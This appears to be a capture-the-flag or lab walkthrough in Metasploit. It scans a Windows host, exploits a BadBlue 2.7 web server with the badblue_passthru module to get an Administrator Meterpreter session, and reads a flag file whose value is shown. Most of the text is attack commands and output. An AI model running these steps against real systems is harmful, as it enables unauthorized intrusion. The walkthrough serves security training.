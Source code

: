 ```bash
db_status
setg RHOSTS 10.0.22.26
workspace -a Keylogging
db_nmap -sV 10.0.22.26
```

```bash
[*] Nmap: Not shown: 990 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               BadBlue httpd 2.7
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49175/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Exploitation <a href="#exploitation-4" id="exploitation-4"></a>

```bash
use exploit/windows/http/badblue_passthru
options
run
```

```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    
Meterpreter     : x86/windows
    meterpreter > getuid
    Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
shell
cd /
type flag.txt
```

{% hint style="success" %}
Flag: `70a569da306697d64fc6c19afea37d94`
{% endhint %}
